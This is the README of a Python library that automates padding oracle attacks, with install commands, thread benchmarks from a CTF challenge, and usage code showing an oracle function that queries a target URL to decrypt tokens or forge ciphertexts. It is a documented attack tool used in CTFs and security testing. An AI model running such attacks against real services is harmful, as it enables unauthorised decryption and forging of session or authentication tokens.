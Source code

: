 # Padding Oracle Automation in Python

![Python Package Badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

This script automates padding oracle attacks in Python, offering efficient and threaded execution.

- [Padding Oracle Automation in Python](#padding-oracle-automation-in-python)
  * [Installation](#installation)
  * [Performance](#performance)
  * [Usage](#usage)
    + [Decryption](#decryption)
    + [Encryption](#encryption)
    + [Customized Logging](#customized-logging)
    + [Extras](#extras)
  * [Example](#example)
  * [To-Do](#to-do)
  * [License](#license)

## Installation

You can install the script using one of these methods:

- **Via PyPI:**
  ```shell
  pip3 install -U padding_oracle
  ```

- **Directly from GitHub:**
  ```shell
  pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
  ```

## Performance

The script's performance varies depending on the number of request threads. This was tested in a CTF web challenge:

| Request Threads | Time Taken  |
|-----------------|-------------|
| 1               | 17m 43s     |
| 4               | 5m 23s      |
| 16              | 1m 20s      |
| 64              | 56s         |

## Usage

### Decryption

When trying to decrypt a token like the one at `https://example.com/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`, this script assumes that the token is vulnerable to a padding oracle attack.

```python
from padding_oracle import decrypt, base64_encode, base64_decode
import requests

sess = requests.Session()  # Uses connection pooling
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    response = sess.get(url, params={'token': base64_encode(ciphertext)})
    if 'failed' in response.text:
        return False  # Token decryption failed
    elif 'success' in response.text:
        return True
    else:
        raise RuntimeError('Unexpected behavior')

ciphertext = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
assert len(ciphertext) % 16 == 0

plaintext = decrypt(
    ciphertext,
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Encryption

Below is an example demonstrating how to encrypt arbitrary bytes. For a detailed understanding of the process, please refer to [this Pull Request](https://github.com/djosix/padding_oracle.py/pull/4).

```python
from padding_oracle import encrypt

ciphertext = encrypt(
    b'YourTextHere', 
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Customized Logging

Both `encrypt` and `decrypt` allow user to inject a custom logger:

- **Disable Logging:**
  ```python
  from padding_oracle import nop_logger

  plaintext = decrypt(
      ...
      logger=nop_logger,
  )
  ```

- **Selective Logging:**
  ```python
  def logger(kind: str, message: str):
      if kind in ('oracle_error', 'solve_block_error'):
          print(f'[{kind}] {message}')

  plaintext = decrypt(
      ...
      logger=logger,
  )
  ```

### Extras

The script also includes PHP-like encoding and decoding functions:

```python
from padding_oracle import urlencode, urldecode, base64_encode, base64_decode
```

## Example

See the [`example/`](example) folder.

## To-Do

- [ ] Support more padding schemes

## License

This script is distributed under the MIT license.
